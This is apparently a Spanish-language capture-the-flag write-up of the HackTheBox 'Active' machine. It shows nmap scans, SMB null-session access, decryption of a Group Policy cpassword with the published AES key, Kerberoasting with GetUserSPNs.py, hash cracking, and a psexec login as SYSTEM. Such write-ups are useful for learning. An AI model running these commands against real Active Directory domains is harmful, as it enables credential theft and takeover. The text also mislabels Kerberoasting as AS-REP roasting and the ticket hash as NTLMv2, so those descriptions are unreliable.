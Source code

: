 ```yaml
---
title: "Active HTB WriteUp"
layout: post
---
```

![Ative HTB](/assets/images/pwned.png)


<h2>Presentación</h2>
Active es una excelente máquina para poner en práctica lo aprendido en el apartado de Hacking Active Directory del curso de TCM Security. Además de realizar enumeraciones a servicios a través del uso de Null sessions, la enumeración de servicios de puertos y servicios como 445/SMB, nos llevó a obtener credenciales y ejecutar un Kerberoasting attack.

<h2>Reconocimiento</h2>
En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.10.100 -oG allports
{% endhighlight %}

**Output** Ports: 53/open/tcp//domain/, 88/open/tcp//kerberos-sec/, 135/open/tcp//msrpc, 139/open/tcp//netbios-ssn, 389/open/tcp//ldap/, 445/open/tcp//microsoft-ds/, 464/open/tcp//kpasswd5/, 593/open/tcp...

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,88,135,139,445,464,593,636,3268,3269,5722,9389 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

![Ative HTB](/assets/images/services.png)

<h2> SMB smbmap % smbclient </h2>
A través de smbclient nos conectamos al directorio que tenemos acceso de lectura como nos indicó el comando, en este caso el directorio \Replication, luego de mapear dicho directorios con el comando smbmap que nos lista los permisos de los directorios, es decir si tenemos permisos de lectura y escritura:

{% highlight bash %}
smbmap -H 10.10.10.100
{% endhighlight %}

Con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}

![Ative HTB](/assets/images/smbclient.png)

Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:

![Ative HTB](/assets/images/ggp.png)

también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} 
echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 
{% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 

![Ative HTB](/assets/images/gpp.png)

**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.

![Ative HTB](/assets/images/hash.png)

y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 

![Ative HTB](/assets/images/psexec.png)

Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 


[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0

